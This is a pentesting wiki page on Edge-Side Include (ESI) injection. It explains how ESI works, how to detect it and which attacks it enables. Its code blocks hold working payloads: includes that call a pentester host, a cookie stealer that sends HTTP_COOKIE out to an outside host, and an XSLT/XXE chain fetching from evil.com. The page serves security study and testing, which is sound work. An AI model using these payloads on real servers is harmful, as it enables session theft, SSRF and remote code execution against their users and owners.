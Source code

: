 # Edge-Side Includes

Edge Side Includes (`ESI`) is an XML-based markup language used to tackle performance issues by enabling heavy caching of Web content, which would be otherwise unstorable through traditional caching protocols. ESI tags are used to instruct an HTTP surrogate (reverse-proxy, caching server, etc.) to fetch additional information regarding a web page with an already cached template. This information may come from another server before rendering the web page to the end-user. ESI enable fully cached web pages to include dynamic content. 

## ESI Injection

Edge-Side Include Injection occurs when an attacker manages to reflect malicious ESI tags in the HTTP Response, in a very similar way as [Server Side Template Injection (SSTI)](Server%20Side%20Template%20Injection%20(SSTI).md) and [Server-Side Includes Injection (SSI)](Server-Side%20Includes%20Injection%20(SSI).md).

![](attachments/ESI-injection.png)

We can determine if a server is using ESI by inspecting response headers in search for `Surrogate-Control: content="ESI/1.0"`

Some useful ESI tags are:
```xml
// Basic detection
hell<!--esi-->o
// If previous is reflected as "hello", it's vulnerable

// Basic detection OAST
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

Common attacks delivered trough ESI are: [^1]
- [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md)
- [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) and [Evading Restrictions](Evading%20Restrictions.md)
- Bypass HttpOnly Cookie Flag
- Header Injection [^header-injection]

[^1]: [Beyond XSS: Edge Side Include Injection](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/), gosecure.net
[^header-injection]: [Header Injection and Limited SSRF (CVE-2019-2438)](<https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/#:~:text=3.%20Header%20Injection%20and%20Limited%20SSRF%20(CVE%2D2019%2D2438)>), gosecure.net


In some cases, we can achieve remote code execution when the application processing ESI directives supports [XSLT](Extensible%20Stylesheet%20Language%20Transformations%20Injection%20(XSLT%20Injection).md), a dynamic language used to transform XML files. In that case, we can pass `dca=xslt` to the payload. The XML file selected will be processed with the possibility of performing [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md) with some limitations. [^xslt2rce]

[^xslt2rce]: [XSLT-to-RCE](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/#:~:text=by%20the%20attacker.-,XSLT%20to%20RCE,-The%20XSLT%20processing), gosecure.net

```xml
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />

<!-- XML payload -->

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```

ESI is supported by different software and HTTP web server surrogates, so everyone of them have **implementation variations** [^2] determining the kind of attack vector and exploitation path.

[^2]: [Implementation Variations](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/#:~:text=exfiltrated%20without%20Javascript.-,Implementation%20Variations,-As%20stated%20earlier), gosecure.net


# External References

More references can be found at:
- [Edge Side Inclusion - HackTrick](https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection#edge-side-inclusion)
- [Exploring the World of ESI Injection](https://infosecwriteups.com/exploring-the-world-of-esi-injection-b86234e66f91)